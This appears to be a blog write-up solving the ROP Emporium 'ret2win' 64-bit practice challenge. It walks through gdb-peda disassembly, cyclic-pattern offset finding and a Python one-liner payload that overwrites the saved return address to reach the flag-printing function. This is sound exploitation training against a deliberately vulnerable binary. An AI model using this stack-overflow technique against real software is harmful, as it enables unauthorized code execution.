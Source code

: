 ```yaml
---
layout: post
title:	"[ROP-Emporium]: Ret2Win 64-bit Challenge solution"
date:	2019-08-08 15:00:00
categories:
    - blog
tags:
    - linux
    - ropchain
    - ret2libc
    - Buffer Overflow
---
```

`ROP-Emporium` is a website, which offers few challenges for those who wants practicing  building ropchains.

First challenge is called: `ret2win`, which is simple and doesn't require building ropchain. It has function: `ret2win()` which executes `system("/bin/cat flag.txt")` libc call. But it isn't called in normal program execution.
{% highlight text %}
gdb-peda$ disas ret2win
Dump of assembler code for function ret2win:
   0x0000000000400811 <+0>:     push   rbp
   0x0000000000400812 <+1>:     mov    rbp,rsp
   0x0000000000400815 <+4>:     mov    edi,0x4009e0
   0x000000000040081a <+9>:     mov    eax,0x0
   0x000000000040081f <+14>:    call   0x4005f0 <printf@plt>
   0x0000000000400824 <+19>:    mov    edi,0x4009fd
   0x0000000000400829 <+24>:    call   0x4005e0 <system@plt>
   0x000000000040082e <+29>:    nop
   0x000000000040082f <+30>:    pop    rbp
   0x0000000000400830 <+31>:    ret    
End of assembler dump.
gdb-peda$ x/1s 0x4009fd
0x4009fd:       "/bin/cat flag.txt"
gdb-peda$ 
{% endhighlight %}

On line `ret2win+19` we see: ***mov edi, 0x4009fd*** which means moving address into `edi` register.

Our aim here is following:

- Find exact offset from where saved return address is being overwritten.
- Find address of `ret2win()` address and replace return address with this function's address.

So, at first create pattern via `gdbpeda` or `pattern_create.rb` from metasploit framework. I choose gdbpeda:
{% highlight text %}
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ 
{% endhighlight %}

fed into running binary and look at registers:
{% highlight text %}
RSI: 0x7ffff7fab8d0 --> 0x0 
RDI: 0x7fffffffe111 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBP: 0x6141414541412941 ('A)AAEAAa')
{% endhighlight %}

And because RBP and and saved return address is together in memory we do the following:
{% highlight text %}
gdb-peda$ pattern offset 0x6141414541412941
7007954260868540737 found at offset: 32
gdb-peda$ 
{% endhighlight %}

Offset is 32 of RBP value but we add 8 bytes to it and we have offset: 40
create pattern with size 40 and append `\xBB\xBB\xBB\xBB` to it. Program crashes and RIP register is replaced with:
{% highlight text %}
RSP: 0x7fffffffe140 --> 0x400840 (<__libc_csu_init>:    push   r15)
RIP: 0xa42424242 ('BBBB\n')
R8 : 0x60228d --> 0x0 
R9 : 0x7ffff7fb0500 (0x00007ffff7fb0500)
{% endhighlight %}


**Finding address of ret2win function**

At first, we can use `nm` tool to extract symbol information from the binary:
{% highlight text %}
root@kali:~/ROPEmporium/ret2win# nm ./ret2win
[...]

00000000004006c0 t register_tm_clones
0000000000400811 t ret2win
                 U setvbuf@@GLIBC_2.2.5
[...]
0000000000601060 D __TMC_END__
{% endhighlight %}

As we can see we got address: `0x400811` to which we have to jump via `RIP` register. Then I built simple payload to fed into the binary via python one-liner:
{% highlight text %}
$ python -c "import struct; print 'A'*40 + struct.pack('<Q', 0x400811)" > payload.txt
{% endhighlight %}

result:
{% highlight text %}
root@kali:~/ROPEmporium/ret2win# cat payload.txt | ./ret2win 
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
{% endhighlight %}